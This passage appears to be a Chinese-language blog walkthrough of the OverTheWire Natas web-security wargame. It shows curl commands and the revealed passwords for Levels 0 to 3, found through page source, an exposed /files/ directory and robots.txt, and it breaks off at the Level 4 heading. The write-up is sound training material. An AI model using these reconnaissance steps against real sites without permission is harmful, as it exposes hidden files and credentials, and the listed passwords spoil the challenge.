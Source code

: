 ```yaml
---
layout: post
title: OverTheWire - Natas Wargame - Level 0 ~ Level 17
author: MaskRay
tags: [security, wargame]
---
```


[Natas Wargame](http://www.overthewire.org/wargames/natas/)是關於web安全的wargame。



### Level 0

```bash
curl -su natas0:natas0 http://natas0.natas.labs.overthewire.org | grep password
```

### Level 1

`body`標籤使用了`oncontextmenu`屏蔽右鍵菜單，但是可以不理會繼續使用`curl`：

```bash
curl -su natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto http://natas1.natas.labs.overthewire.org
```

### Level 2

```bash
curl -su natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org
```

看到源代碼中有文件`/files/pixel.png`，因此訪問目錄`/files/`：

```bash
curl -su natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/
```

發現文件`users.txt`，訪問得到`natas3`的密碼。

### Level 3

```bash
curl -su natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/robots.txt
```

發現目錄`/s3cr3t/`，因此訪問該目錄：

```bash
curl -su natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/
curl -su natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
```

### Level 4
